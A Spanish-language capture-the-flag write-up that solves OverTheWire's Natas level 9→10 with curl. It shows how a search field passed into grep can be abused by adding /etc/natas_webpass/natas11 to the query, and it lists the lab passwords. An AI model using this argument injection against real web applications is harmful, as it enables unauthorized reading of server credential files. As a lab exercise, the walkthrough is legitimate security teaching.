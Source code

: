 ```yaml
---
title: OverTheWire - Natas 9 -> 10 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 9 -> 10 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas10
Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
URL:      http://natas10.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas9-10-1.png)

Vemos que existe un buscado y su código fuente que se almacena en `index-source.html`.

![](/images/images-otw-natas/natas9-10-2.png)

Si vamos al archivo no podremos ver nada.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/index-source.html
```

![](/images/images-otw-natas/natas9-10-3.png)

Esto se soluciona instalando la herramienta `html2text` con el comando `sudo apt install html2text`.

 ```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/index-source.html | html2text
 ```

![](/images/images-otw-natas/natas9-10-4.png)

Se está haciendo una lista negra con los carácteres `; | &`, es decir, si escribimos estos carácteres en la búsqueda la página nos dará un error.

![](/images/images-otw-natas/natas9-10-5.png)

Lo que ingresemos en la búsqueda se guardará en la variable `$key` y se agregará al comando grep.

![](/images/images-otw-natas/natas9-10-6.png)

Para resolver este reto y obtener la contraseña primero debemos entender cómo funciona el comando grep.

Tenemos un archivo llamado `archivo1.txt` que tiene la palabra `hola!`.

![](/images/images-otw-natas/natas9-10-7.png)

Y otro archivo llamado `archivo2.txt` que contiene la palabra `chao!`.

![](/images/images-otw-natas/natas9-10-8.png)

Si buscamos la letra `a` con el comando grep sobre ambos archivo obtenemos las palabras enteras, y grep nos indica el nombre del archivo al que pertece cada palabra.

```bash
grep -i a archivo1.txt archivo2.txt
```

![](/images/images-otw-natas/natas9-10-9.png)

Esta parte marcada en rojo es la que nosotros controlamos en la búsqueda de la página.

![](/images/images-otw-natas/natas9-10-10.png)

Si buscamos una letra que no aparece en ningún archivo, entonces no nos mostrará nada. Lo mismo si filtramos una letra que aparece solo en un archivo.

![](/images/images-otw-natas/natas9-10-11.png)

Con esto en mente filtraremos por la letra `a`, y agregaremos el archivo `/etc/natas_webpass/natas11` que contiene la contraseña para el siguiente nivel.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=a /etc/natas_webpass/natas11&submit=hola'
```

![](/images/images-otw-natas/natas9-10-12.png)

Pero lo página nos muestra mucho texto. Enviaremos todo este output hacia un archivo cualquiera con el nombre `natas10.txt`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=a /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/images/images-otw-natas/natas9-10-19.png)

Y ejecutaremos el comando head para observar solo las primeras lineas de la respuesta.

```bash
head -n 30 natas10.txt
```

Notamos que en la respuesta no se encuentra la contraseña de natas11, esto es porque la contraseña no contiene la letra `a`. Seguiremos reemplazando la letra en nuestro comando de curl, hasta que nos devuelva la contraseña.

![](/images/images-otw-natas/natas9-10-14.png)

Realizamos el mismo procedimiento pero cambiamos la letra `a` por una `b`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=b /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/images/images-otw-natas/natas9-10-15.png)

Nuevamente no vemos nada porque lo contraseña de natas11 no contiene la letra `b`.

```bash
head -n 30 natas10.txt
```

![](/images/images-otw-natas/natas9-10-16.png)

Realizamos el mismo procedimiento pero cambiamos la letra `b` por la letra `c`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=c /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/images/images-otw-natas/natas9-10-17.png)

Ejecutamos el comando head y esta vez sí vemos la contraseña de natas11.

```bash
head -n 30 natas10.txt
```

![](/images/images-otw-natas/natas9-10-18.png)


# Contraseña
---

`U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`

---

## [Anterior](/level-8-9)
